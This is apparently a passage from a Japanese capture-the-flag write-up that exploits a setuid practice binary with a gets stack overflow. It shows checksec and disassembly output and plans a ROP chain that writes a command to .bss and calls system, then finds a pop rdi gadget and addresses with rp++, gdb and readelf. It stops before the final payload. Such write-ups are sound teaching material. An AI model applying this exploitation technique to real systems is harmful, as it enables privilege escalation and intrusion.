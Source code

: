 ```
$ checksec --file ./basic 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
$ objdump -M intel -d basic
︙
0000000000400646 <funcc>:
  400646:	55                   	push   rbp
  400647:	48 89 e5             	mov    rbp,rsp
  40064a:	bf 64 07 40 00       	mov    edi,0x400764
  40064f:	e8 9c fe ff ff       	call   4004f0 <system@plt>
  400654:	90                   	nop
  400655:	5d                   	pop    rbp
  400656:	c3                   	ret    
︙
0000000000400680 <main>:
  400680:	55                   	push   rbp
  400681:	48 89 e5             	mov    rbp,rsp
  400684:	53                   	push   rbx
  400685:	48 81 ec 88 00 00 00 	sub    rsp,0x88
  40068c:	b8 00 00 00 00       	mov    eax,0x0
  400691:	e8 6a fe ff ff       	call   400500 <geteuid@plt>
  400696:	89 c3                	mov    ebx,eax
  400698:	b8 00 00 00 00       	mov    eax,0x0
  40069d:	e8 5e fe ff ff       	call   400500 <geteuid@plt>
  4006a2:	89 de                	mov    esi,ebx
  4006a4:	89 c7                	mov    edi,eax
  4006a6:	b8 00 00 00 00       	mov    eax,0x0
  4006ab:	e8 80 fe ff ff       	call   400530 <setreuid@plt>
  4006b0:	48 8d 85 70 ff ff ff 	lea    rax,[rbp-0x90]
  4006b7:	48 89 c7             	mov    rdi,rax
  4006ba:	b8 00 00 00 00       	mov    eax,0x0
  4006bf:	e8 5c fe ff ff       	call   400520 <gets@plt>
  4006c4:	b8 00 00 00 00       	mov    eax,0x0
  4006c9:	48 81 c4 88 00 00 00 	add    rsp,0x88
  4006d0:	5b                   	pop    rbx
  4006d1:	5d                   	pop    rbp
  4006d2:	c3                   	ret   
︙ 
```

ユーザ入力に `gets` を使われており、スタックバッファオーバーフローができそうです。`system` 関数も用意されているので、`gets` で bss に実行したいコマンドを書き込み、これを `system` に与える感じでやってみましょう。

```
$ rp++ --file ./basic --rop 3 | grep rdi
0x00400743: pop rdi ; ret  ;  (1 found)
$ gdb ./basic
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x4004f0 <system@plt>
gdb-peda$ p gets
$2 = {<text variable, no debug info>} 0x400520 <gets@plt>
$ readelf -S ./basic | grep bss
  [26] .bss              NOBITS           000000000060107b  0000107b
```
